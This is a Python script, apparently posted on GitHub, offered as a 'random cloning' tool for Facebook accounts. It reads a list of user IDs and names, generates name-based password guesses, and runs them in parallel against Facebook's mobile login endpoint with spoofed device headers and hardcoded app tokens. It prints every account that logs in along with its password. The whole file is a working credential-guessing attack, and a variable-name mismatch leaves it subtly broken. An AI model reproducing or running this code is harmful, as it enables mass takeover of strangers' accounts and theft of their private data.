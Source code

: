 #WRITTEN BY MANJAKA
#FOLLOW MY GITHUB : https://github.com/MANJAKA-305
#----------import----------#
import os
from time import sleep as slp
from concurrent.futures import ThreadPoolExecutor as ted
import uuid
import random 
import httpx
import json
import sys
#----------logo----------#
logo=('''                                                                                                      
`7MM"""Mq. MMP""MM""YMM `7MMM.     ,MMF'
  MM   `MM.P'   MM   `7   MMMb    dPMM  
  MM   ,M9      MM        M YM   ,M MM  
  MMmmdM9       MM        M  Mb  M' MM  
  MM  YM.       MM        M  YM.P'  MM  
  MM   `Mb.     MM        M  `YM'   MM  
.JMML. .JMM.  .JMML.    .JML. `'  .JMML. ''')
#----------clear----------#
def clear():
    os.system('clear')
    print(logo)
    print(42*'-')
    print(' FB :ʚʬɞ Manjaka Rodry ʚʬɞ ')
    print(' GITHUB  : MANJAKA-305')
    print(42*'-')
#----------line----------#
def line():
    print(42*'-')
#----------menu----------#
def main():
    clear()
    print(' [01] RANDOM CLONING ')
    print(' [00] EXIT ')
    line()
    option=input(' [??] CHOICE MENU : ')
    if option in [ '1']:
        __file__()
    else:
        exit(' THANKS FOR USING ')
#----------file----------#
def __file__():
    clear()
    filex=input(' [??] ENTER FILE PATH : ')
    try:
        fo=open(filex,'r').read().splitlines()
    except FileNotFoundError:
        print(' File not found !!');slp(2)
        __file__()
    clear()
    try:
        pas_limit=int(input(' [??] ENTER PASSWORD LIMIT (1-20) : '))
    except:
        pas_limit=1
    line()
    pas_list=[]
    for i in range(pas_limit):
        pasx=input(f' [??] ENTER PASSWORD {i+1} : ')
        pas_list.append(pasx)
    with ted(max_workers=30) as Manjaka:
        tl=str(len(fo))
        clear()
        print(' TOTAL ACCOUNT : '+tl)
        print(' USE AIRPLANE MODE FOR SPEED UP')
        line()
        for user in fo:
            ids,names=user.split('|')
            passlist=pas_list
            Dipto.submit(m1,ids,names,passlist)
    line()
    print(' THE PROCESS HAS BEEN COMPLETE')
    input(' PRESS ENTER TO BACK : ')
    main()
loop=0
oks=[]
cps=[]
#----------method------------#
def m1(ids,names,passlist):
    global oks,loop
    try:
        fn=names.split(' ')[0]
        try:
            ln=names.split(' ')[1]
        except:
            ln=fn
        for pw in passlist:
            sys.stdout.write('\r\r [RUNNING] %s|ALIVE:%s '%(loop,len(oks)));sys.stdout.flush()
            pas=pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
            data={'adid': str(uuid.uuid4()), 'format': 'json', 'device_id': str(uuid.uuid4()), 'email': ids, 'password': pas, 'generate_analytics_claims': '1', 'community_id': '', 'cpl': 'true', 'try_num': '1', 'family_device_id': str(uuid.uuid4()), 'credentials_type': 'password', 'source': 'login', 'error_detail_type': 'button_with_disabled', 'enroll_misauth': 'false', 'generate_session_cookies': '1', 'generate_machine_id': '1', 'currently_logged_in_userid': '0', 'locale': 'en_US', 'client_country_code': 'US', 'fb_api_req_friendly_name': 'authenticate', 'api_key': '882a8490361da98702bf97a021ddc14d', 'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
            head={'User-Agent': '[FBAN/FB4A;FBAV/15.0.0.912;FBBV/3800125;[FBAN/FB4A;FBAV/280.0.0.48.122;FBBV/233235247;FBDM/{density=3.0,width=1080,height=2132};FBLC/en_US;FBRV/235412020;FBCR/airtel;FBMF/OPPO;FBBD/OPPO;FBPN/com.facebook.katana;FBDV/CPH1893;FBSV/9;FBOP/1;FBCA/armeabi-v7a:armeabi;]', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'close', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000,40000)), 'X-FB-SIM-HNI': str(random.randint(20000,40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'WIFI', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': str(random.randint(1000,9999)), 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62'}
            url='https://b-graph.facebook.com/auth/login'
            req=httpx.post(url,data=data,headers=head).json()
            if 'session_key' in req:
                print('\r\r [ALIVE] '+ids+'|'+pas)
                oks.append(ids)
                break
            elif 'www.facebook.com' in req['error']['message']:
                print('\r\r [CHECKPOINT] '+ids+'|'+pas)
                cps.append(ids)
                break
            else:
                continue
        loop+=1
    except:
        pass
#----------end----------#
main()
Footer
